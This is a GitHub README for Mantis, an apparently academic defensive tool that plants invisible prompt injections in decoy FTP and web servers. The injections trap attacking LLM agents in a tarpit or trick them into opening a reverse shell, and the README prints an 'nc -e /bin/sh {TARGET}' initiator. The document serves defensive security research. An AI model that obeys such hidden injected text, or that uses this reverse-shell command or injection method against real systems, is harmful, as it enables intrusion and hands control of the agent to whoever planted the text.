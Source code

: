 <p align="center">
 <img height="150" src="assets/logo.png"> 
</p>

# Project Mantis:  *Hacking Back the AI-Hacker*
## Prompt Injection as a Defense Against LLM-driven Cyberattacks

🔨Working on transforming Mantis from an academic PoC to a full-fledged and robust defensive tool for your assets. 🪚  

⚠️ Until an official release, this code might undergo severe refactoring and breaking updates. ⚠️

#### Next Milestones:

- [x] Multi-threading for decoys
- [ ]  Advanced agent tracking capabilities
- [x]  Web-based decoy
- [ ]  Refactoring Mantis as a Daemon/Controller interface

## Install Mantis

```
pip install -r requirements.txt
```

## Run Mantis with pre-made configurations
Various pre-made configurations are available in the ```./confs``` directory.

### Hack-back
An example of a Mantis configuration file is given in ```./confs/ftp_hackback_rshell.py```. What this configuration means and how you can choose yours will be explained later in this README file. This can be run using the ```mantis_run.py``` script:
```
python mantis_run.py confs.ftp_hackback_rshell
```
Running Mantis with ```confs/ftp_hackback_rshell.py``` will spawn an FTP decoy server with anonymous credentials that aims to trick the attacking LLM-agent into opening a reverse shell via (invisible) prompt injections. When triggered, it spawns a reverse shell listener on the specified port for testing (⚠️ this configuration is not intended for production ⚠️). 


A variation of the above that uses a SQL-Injection-vulnerable-webapp as decoy can be run via:

```
python mantis_run.py confs.web_hackback_rshell
```

In these examples, we use a very simple reverse shell initiator: ```nc -e /bin/sh {TARGET} ...```. This can be changed by altering the variable ```REVERSE_SHELL_INITIATOR``` in the configuration file (e.g., ```confs/ftp_hackback_rshell.py```), where the parameter ```{TARGET}``` is the IP of the host (which is set automatically by Mantis). If you want to automate the attacker's post-exploitation, you can modify or replace the class ```Mantis.Decoy.ReverseShellListenerTest```. More on how the configuration files work later.

### Tarpit
Another example is ```./confs/ftp_filesystem_tarpit.py```:

```
python mantis_run.py confs.ftp_filesystem_tarpit
```

This starts a fake FTP server with an infinitely deep filesystem and tailored (invisible) prompt injections to keep the attacking LLM agent trapped. The complexity of the tarpit can be set via the ```EXPECTED_NUMBER_OF_DIRECTORIES``` variable in ```./confs/ftp_filesystem_tarpit.py```.

## Create your own configuration
TODO

### Decoys
TODO

## Create your own decoy
TODO

## White paper
A general description of Mantis's internal working is given in this [paper](https://arxiv.org/abs/2410.20911).
```
@misc{pasquini2024hackingaihackerpromptinjection,
      title={Hacking Back the AI-Hacker: Prompt Injection as a Defense Against LLM-driven Cyberattacks}, 
      author={Dario Pasquini and Evgenios M. Kornaropoulos and Giuseppe Ateniese},
      year={2024},
      eprint={2410.20911},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2410.20911}, 
}
```
